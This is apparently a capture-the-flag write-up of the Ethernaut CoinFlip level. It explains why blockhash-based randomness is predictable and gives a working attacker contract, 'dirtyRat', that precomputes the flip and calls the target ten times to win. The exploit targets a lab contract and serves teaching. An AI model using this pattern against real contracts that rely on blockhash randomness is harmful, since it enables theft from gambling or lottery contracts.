 This contract uses a pseudo-random number generator to flip a coin. The goal of the challenge is to guess the coinflip correctly 10 times in a row. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Looking over the code we can see how the coin flip is done. Looking over the code it can be predicted since the RNG machine is predictable as it uses the hash from the last block and a saved factor. The easiest way to attack this contract is to write one of our own. Navigating to [https://remix.ethereum.org/](https://remix.ethereum.org/) we can write and deploy a contract that can attack this one. 

The attack is fairly simple. We first write a contract that does the coinflip in the same way. Then based on the result interacts with the vulnerable contract and sends the result for us. All we have to do is call the cheat function. 

Here is the contract to exploit it with the description below.

```solidity
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.4/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract dirtyRat {
    CoinFlip public flipper;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    bool public side;
    
    constructor() public {
        flipper = CoinFlip(0x72806B20265F51BC83D5cb65d7289FBDCB513eFc);
    }
    
    function cheat() public returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        side = coinFlip == 1 ? true : false;
        bool result = flipper.flip(side);
        return true;
    }
}
```

The first thing we have to do is copy the CoinFlip contract code over. Since our contract is going to be communicating with the contract it needs to know what it looks like. Also at the top is the import for the code that the contract uses. In order to get the contract to compile we have to give it a direct link to the file that we want to import. 

After copying the code over we start creating our contract that will interact with the vulnerable one. This is the dirtyRat contract at the bottom. In this contract we initialize some variables that our contract will need in order to be able to run the same calculations. Then in the constructor we create a variable that points to the CoinFlip contract that we are attacking. We can get the address by typing in ```instance``` in the console of chrome. 

There is a cheat function that has to be created. This function will do the same calculations to flip the coin. Then after learning the output will call the other contract's flip function with the correct side. 

Once the code is created we need to deploy it using the remix site. Make sure that we deploy the dirtyRat contract on the site. Once the code is deployed the remix site will give us easy access to call the cheat function. 

![](attach/Pasted%20image%2020210822202601.png)

All we have to do is run the cheat function 10 times. We can check the to make sure it is working by running ```await contract.consecutiveWins()```. 

![](attach/Pasted%20image%2020210822202715.png)

We can see in the output that the words array that we have won 10 times in a row. At this point we can turn in the contract.
